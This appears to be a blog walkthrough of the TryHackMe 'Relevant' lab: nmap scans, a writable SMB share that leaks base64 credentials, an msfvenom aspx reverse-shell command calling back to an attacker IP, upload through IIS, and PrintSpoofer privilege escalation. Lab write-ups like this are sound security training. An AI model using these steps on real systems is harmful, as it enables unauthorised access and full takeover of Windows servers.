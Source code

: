 ```yaml
---
title: Tryhackme - Relevant
author: Rhovelionz
date: 2022-09-26 07:21:00 +0700
categories: [Tryhackme]
tags: [Samba, SMB, IIS, Psexec, PrintSpoofer, Apppool, test]
image: /assets/img/Post/Relevant.jpeg

---
```


>   **Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using,or in any other way utilizing these materials.These materials are for educational and research purposes only.**


# **<span style='color:#ff5555'>Summary</span>**
***
- SMB share has access to write
- Validate users
- Transfer payload to the SMB share
- Found SEimpersonate token is enabled
- Exploit it with PrintSpoofer


## **<span style='color:#ff5555'>Port Scan</span>**
***

```terminal
root@rhovelionz:~/THM/Relevant# nmap -A -T4 10.10.213.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-25 11:01 WIB
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 12:41 (0:00:30 remaining)
Nmap scan report for 10.10.213.110
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:11:01+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```terminal
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:19:15+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-09-19T07:19:56+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

## **<span style='color:#ff5555'>Website</span>**
***

The relevant website only shows default IIS windows server's page.

![]({{ "/images/thm/Relevant/website.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing</span>**
***

Running `gobuster` on the website with unfortunate output.

![]({{ "/images/thm/Relevant/gobuster1.png" | relative_url }})

Since it's windows machine, we need to enumerate SMB based on nmap's result.

## **<span style='color:#ff5555'>Enumerating SMB</span>**
***

Using SMBClient to open SMB shares on the server.

![]({{ "/images/thm/Relevant/smb1.png" | relative_url }})

It shows the **nt4wrksv** share enabled, the next step is to connect with **nt4wrksv** and find out what we can get from it.

![]({{ "/images/thm/Relevant/smb2.png" | relative_url }})

Download the password.txt file stored in it.

The file consists of two base64 encoded credentials

![]({{ "/images/thm/Relevant/encoded1.png" | relative_url }})

After decoding the base64, it reveals credentials for Bob and Bill

![]({{ "/images/thm/Relevant/cred1.png" | relative_url }})

Having these credentials, we can attempt to use it to the target, using **psexec** to check which users is valid.

![]({{ "/images/thm/Relevant/bob.png" | relative_url }})

![]({{ "/images/thm/Relevant/bill.png" | relative_url }})


## **<span style='color:#ff5555'>Special Port</span>**
***

Based on nmap's scan, we also have open port on 49663 which running **Microsoft HTTPAPI httpd**

Running `gobuster` against port 49663 to check subdirectories in it.

![]({{ "/images/thm/Relevant/gobuster2.png" | relative_url }})

To validate that we are on the right path, try add passwords.txt that we found on SMB before.

![]({{ "/images/thm/Relevant/passwordstxt.png" | relative_url }})

It shows the same file that we found in SMB share, that means anything we put on SMB shares because we have write access, and knowing that IIS usually accept an aspx file, we need to craft it and we can download it on the webserver and gain access.

Craft the payload:
```terminal
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.62.230 LPORT=1337 -f aspx -o rhovelionz.aspx
```
Upload it to the smb share

![]({{ "/images/thm/Relevant/uploadtosmbshare.png" | relative_url }})

We need to start netcat listener and open the link on the browser, and we are in.

![]({{ "/images/thm/Relevant/netcat2.png" | relative_url }})

## **<span style='color:#ff5555'>Escalate to Administrator</span>**
***

There is an exploit to abuse SeImpersonatePrivilege token that is enabled, that means token impersonation could be used to escalate to the **administrator**.

![]({{ "/images/thm/Relevant/seimpersonate.png" | relative_url }})

We will be using `PrintSpoofer`, download it and tranfer the exploit file via SMB share.

![]({{ "/images/thm/Relevant/uploadprintspoofer.png" | relative_url }})

Executing the exploit with command with -i to interact with new process and -c cmd to run CMD after execution.

![]({{ "/images/thm/Relevant/execexploit.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [Tartarus - Tryhackme](https://tryhackme.com/room/relevant)

